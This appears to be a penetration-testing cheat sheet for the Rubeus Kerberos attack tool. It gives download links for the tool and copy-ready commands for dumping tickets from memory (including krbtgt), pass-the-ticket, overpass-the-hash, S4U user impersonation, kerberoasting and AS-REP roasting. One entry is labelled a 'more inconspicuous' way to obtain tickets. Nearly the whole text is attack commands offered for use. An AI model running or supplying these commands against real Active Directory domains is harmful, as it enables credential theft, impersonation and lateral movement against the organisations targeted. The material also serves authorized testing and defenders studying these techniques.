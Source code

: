 ### sources or compile directly from github
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  

## note: always use the fully qualified domain name to execute commands after getting a ticket

### list kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```


### create new process
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe'
```

#### pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```


### kerberoasting using john format
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt '
```

### asrep roasting using john format 
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### as-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

